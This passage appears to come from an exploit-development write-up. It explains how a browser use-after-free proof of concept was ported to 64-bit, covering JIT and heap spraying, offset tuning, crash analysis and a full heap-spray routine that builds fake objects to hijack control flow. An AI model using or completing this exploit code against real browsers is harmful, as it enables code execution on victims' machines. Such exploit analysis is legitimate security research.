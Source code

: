 **The different steps of the exploit are the following**:

1. Spray ASM.JS JIT modules
2. Spray fake objects in the heap
3. Trigger the UAF
4. Play with the freed object to trigger a certain code path and hijack control flow

There are **two hardcoded addresses** in this 32-bit version: 

* `object_target_address`: the hypothesis for the sprayed **fake heap object address**
* `jit_payload_target`: the hypothesis for the **shellcode address**

There is also a hardcoded `offset`, which value is 0x88. This is a relative offset to `arrBase` (which is `object_target_address`). We also observe that the value `arrBase - offset` is placed at specific offsets inside the `u32` array, which is used to ultimately achieve control flow hijacking through a virtual call. Now, if we replace the `exploit` function with the following:

```js
u32[0x4] = 0;
u32[0xa] = 0;
u32[0x10] = 0;
```

...we notice that the browser will crash on the following instruction, where `rcx` equals 0x110:

```
mov eax, dword ptr ds:[rcx+D8]
```

We therefore understand that, at some point, one of these values inside the `u32` array was read and added to a constant (0x110) to derive the address of a new object. Note how $\text{0x110} = \text{0x88} \times 2$: we can probably adapt this part of the PoC by changing `offset` to 0x110 (which would make sense going from 32-bit to 64-bit structures), to make `rcx` point to the fake heap object.

Moreover, if we also write values in `u32[0x4+1]`, `u32[0xa+1]` and `u32[0x10+1]`, we observe that we can control `rcx` as a full 64-bit pointer, which allows to reference a valid heap address on our environment (assuming, again, that we can predict such an address).

Now, let's take a closer look at the "heap spray" part of the exploit. 

```js
var heap = []
var current_address = 0x08000000
var block_size = 0x1000000
while(current_address < object_target_address){
    var heap_block = new Uint32Array(block_size/4 - 0x100)
    for (var offset = 0; offset < block_size; offset += 0x100000){
        /* fake object target = ecx + 0x88 and fake vtable*/
        heap_block[offset/4 + 0x00/4] = object_target_address
        /* self + 4 */
        heap_block[offset/4 + 0x14/4] = object_target_address
        /* the path to EIP */
        heap_block[offset/4 + 0x18/4] = 4
        heap_block[offset/4 + 0xac/4] = 1
        /* fake virtual function --> JIT target */
        heap_block[offset/4 + 0x138/4] = jit_payload_target 
    }
    heap.push(heap_block)
    current_address += block_size
}
```
